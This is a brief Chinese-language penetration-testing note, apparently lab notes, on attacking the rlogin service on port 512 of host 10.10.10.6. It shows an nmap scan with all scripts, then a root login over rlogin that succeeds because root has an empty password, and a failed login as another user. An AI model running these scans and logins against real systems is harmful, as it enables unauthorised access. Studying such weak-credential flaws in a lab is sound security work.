


# 512_rlogin

nmap扫描

>  nmap -v -p 512 -T4 --version-all --script all 10.10.10.6

得到可rlogin的用户名单

用root登录

> rlogin -l root 10.10.10.6

登录成功

其他用户

> rlogin -l netadmin 10.10.10.6

登录失败

因为root是空密码所以可以直接登录成功

